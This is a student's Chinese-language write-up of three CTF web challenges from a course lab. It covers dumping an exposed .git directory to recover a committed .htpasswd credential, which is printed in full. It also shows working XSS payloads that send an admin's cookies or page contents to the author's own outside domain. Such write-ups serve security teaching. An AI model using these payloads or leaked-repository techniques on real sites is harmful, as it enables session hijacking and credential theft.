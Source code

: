 # HW4 writeup

## The Stupid Content Tracker
### Solution
點開本題的連結後可以看到 .git 目錄，一看到 .git 就想到裡面可能有些有趣的東西，於使我使用 [git-dumper](https://github.com/arthaud/git-dumper) 這項工具將整個 .git 載下來。

```
user@kali:~/git-dumper$ ./git-dumper.py https://edu-ctf.csie.org:44302/.git/ ~/project
```

進去 `project` 目錄後，發現有一個可疑的目錄 `admin_portal_non_production`。進去後發現裡面有一個 PHP 檔，它會印出 flag，不過 flag 是在環境變數中，因此無法從原始碼得知。

不過無所謂我們試著瀏覽看看 `admin_portal_non_production/index.php` 。

![](https://i.imgur.com/qxFApNp.png)


看來在我們不知道帳號密碼下是無法 access `index.php` 的。

不過，既然我們有 .git 目錄，我們就試看看會不會開發者不小心將 password file 給 commit 進去。試看看 `git log`

```
commit 51d768c7d3eb3ea8104c2a76598b95702f4724a3 (HEAD -> master)
Author: bookgin <dongsheoil@gmail.com>
Date:   Sun Nov 1 22:55:50 2020 +0800

    Add gitignore so password will not be added again

...

commit 2577aafa9bf476037cb011d59cf433d8a0c09c96
Author: bookgin <dongsheoil@gmail.com>
Date:   Sun Nov 1 22:38:45 2020 +0800

    Add password

commit a405fdd6c7e093afbe1f7a78dc08df273504a4fa
Author: bookgin <dongsheoil@gmail.com>
Date:   Sun Nov 1 22:33:48 2020 +0800

    Init commit
(END)
```

哈哈，commit `2577aafa9bf476037cb011d59cf433d8a0c09c96` 很有可能存有 password file。

利用指令 `git reset --hard 2577aafa9bf476037cb011d59cf433d8a0c09c96` 回溯到 `2577aafa9bf476037cb011d59cf433d8a0c09c96` 看看：

```
user@kali:~/project$ cd admin_portal_non_production/
user@kali:~/project/admin_portal_non_production$ ls -al
total 16
drwxr-xr-x 2 user user 4096 Nov  4 21:59 .
drwxr-xr-x 4 user user 4096 Nov  4 21:59 ..
-rw-r--r-- 1 user user   30 Nov  4 21:59 .htpasswd
-rw-r--r-- 1 user user   32 Nov  4 21:39 index.php
user@kali:~/project/admin_portal_non_production$ cat .htpasswd 
thewebmaster:ols2Xrmdja7XaaMP
user@kali:~/project/admin_portal_non_production$ 
```
找到帳密了 :+1: 。用 `.htpasswd` 裡的那組帳密登入後就會噴 flag 回來了。

![](https://i.imgur.com/sVbbbYA.png)

## Zero Note Revenge
### Solution
點開本題的連結後可以看到一個留言板。先註冊一下後就可以留言了。
看到 `Create new notes` ，第一件事就是想到可以 XSS。輸入 `<img src=x onerror="alert(1)">` 看看：

![](https://i.imgur.com/TrteJ8Q.png)

果然有 XSS 漏洞，跟課堂練習的一樣。

不過這次要取得的是 httpOnly 的 cookie ( 也就是`rack.session` )。httpOnly 的 cookie 是無法由 `document.cookie` 取得的。乍看之下本題無解...

不過，經過許多測試之後，發現當我們想要 access 不存在的 `note` 時 ( 例如 `https://edu-ctf.csie.org:44301/note/meow` ) ：

![](https://i.imgur.com/VtQXRV6.png)

會有怪怪的東西跑出來。這似乎是開發人員加上的 debug message，仔細一看上面有我要的 cookie 。

因此，我們希望做的事是讓 admin 點開一個不存在的網站，例如 `https://edu-ctf.csie.org:44301/note/meow`，然後利用 XSS 漏洞讓 admin 去 query 我所控制的 domain 後，取到 `https://edu-ctf.csie.org:44301/note/meow` 整個頁面的 body (可能需要經過一下 base 64 encoding)。

以下是我使用的 javascript XSS payload：
```htmlmixed
<script>
/* wxrdnx.tw 是我控制的 domain */
async function main() {
  let response = await fetch('https://edu-ctf.csie.org:44301/note/meow');
  let text = await response.text();
  fetch('https://wxrdnx.tw/?c=' + btoa(text));
}
main();
</script>
```
創造一個帶有以上 XSS payload 的 note，然後點選 `Report to admin` ，理論上 admin 就會觸發這個 XSS payload。翻開我的 web server 的 `access.log` 後可以看到 base64 encode 過的 body：

![](https://i.imgur.com/5VEQ1F5.png)

base64 decode 完後可以發現我們要的 httpOnly cookie (`rack.session` )，裡面就有我們的 flag。

![](https://i.imgur.com/2SMnzeW.png)

## Zero Meme
### Solution
隨便試看看幾種不同的 input 後，發現 image 的 link 必須要是 http or https 開頭，不過沒有過濾掉特殊字元，因此還是有 XSS漏洞。

試看看 `http://"><script>alert(1)</script>` 後，發現的確觸發了 XSS 漏洞。

![](https://i.imgur.com/qIyto5x.png)

不過當我送 XSS payload `http://"><script>fetch('https://wxrdnx.tw/?c='+document.cookie)</script>` 給 admin 去點後：

![](https://i.imgur.com/pIPZATx.png)

發現 link 竟然有做 URL encoding。

![](https://i.imgur.com/6v2d3Qo.png)

因此，XSS 變得沒有甚麼用了。

另外，本題有說 cookie 有設 `Set-Cookie: SameSite=Lax`，加上沒有 `
Access-Control-Allow-Origin` 之類的 header。因此 XSS，CSRF，CORS 之類的跨域攻擊變得更沒有甚麼用了。

想了非常非常久後，我換了一個想法，把腦筋動到上一題去了。本題使用的 cookie domain 是 `edu-ctf.csie.org`，和 Zero Note Revenge 的 cookie 的 domain 是一樣的。於是我試了看看傳給 admin 上一題的含有 XSS 漏洞的網頁：

![](https://i.imgur.com/P6KjWBg.png)

然後就得到 flag 了？！

![](https://i.imgur.com/hDLW0v2.png)

更新：原因是
1. `Set-Cookie: SameSite=Lax` 允許我們的 cookie 通過 top-level navigation ( 例如 `<a href=example.com>` 或 `window.open('https://example.com')` 等 ) 的 GET 請求一起發送。
2. 題有敘述 admin 每次都會重新登入並點擊鏈結 ( 是 GET 請求以及 top-level 的 navigation )，符合 `SameSite=Lax` 攜帶 cookie 的規則。因此一旦 admin 觸發了 XSS payload 後，到我所掌控的 server 上查看 `access.log` 就能看到 cookie 了。

